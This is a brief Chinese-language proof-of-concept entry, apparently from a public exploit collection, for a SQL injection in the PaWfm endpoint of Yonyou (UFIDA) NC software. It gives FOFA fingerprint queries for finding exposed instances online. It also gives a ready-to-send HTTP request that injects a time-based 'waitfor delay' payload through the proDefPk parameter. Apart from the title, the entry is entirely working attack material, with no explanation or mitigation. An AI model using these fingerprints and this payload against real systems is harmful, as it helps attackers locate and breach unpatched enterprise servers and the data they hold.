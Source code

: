 ## 用友NC接口PaWfm存在sql注入漏洞

## fofa
```
icon_hash="1085941792"  
app="用友-UFIDA-NC"
```

## poc
```
GET /portal/pt/PaWfm/open?pageId=login&proDefPk=11';waitfor+delay+'0:0:6'-- HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19
```

![image](../../images/59a73db4-f658-4a0c-b1ec-3f5dd6bf5f6a.png)
